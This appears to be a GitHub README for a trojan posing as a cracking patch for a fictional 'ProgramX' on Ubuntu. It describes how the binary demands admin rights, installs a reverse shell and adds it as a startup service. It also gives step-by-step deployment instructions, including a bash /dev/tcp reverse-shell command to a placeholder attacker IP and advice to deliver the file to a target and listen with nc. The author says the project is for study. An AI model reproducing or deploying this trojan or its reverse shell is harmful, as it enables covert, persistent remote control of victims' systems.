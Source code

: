 # Trojan - Cracking Software
Basic trojan with command and control functionatilies for ubuntu based systems. This trojan was created for study porpuses only.

It emulates a scenario of a binarie that patches/cracks a ficticional legit software called ProgramX but inside has a malware. 
When the user download it, If he try to run it without admin privileges, it will not run and ask to be run again with admin privileges.
After being executed, the binarie will do it's legimitate work of patching/cracking ProgramX but will also install a reverse shell on the user's system.
The binare will create a shell script that runs the reverse shell and then add the first script as a service to be run at system startup. 

It was coded in C and Bash Scripting.

## How to use:

1 - Change the attacker IP Address and Port to connect in the source code (line 52).

```
bash -i >& /dev/tcp/attackerip/porttoconnect 0>&1 2>&1
```
2 - Compile code

3 - Download/Send the binarie to the target machine

4 - Give Read/Write/Execution permissions to the file

```
chmod +rwx programxpatch
```

5 - Open and listen to the port in your host (attacker host) using ncat or nc

6 - Run

![image](https://github.com/Smarttfoxx/softwarecracktrojan/assets/140526026/87100563-10fd-4327-bb0e-d1f37985f41f)

![Sem título](https://github.com/Smarttfoxx/softwarecracktrojan/assets/140526026/450d909f-1a69-4cf5-b82f-986c16c4a45a)

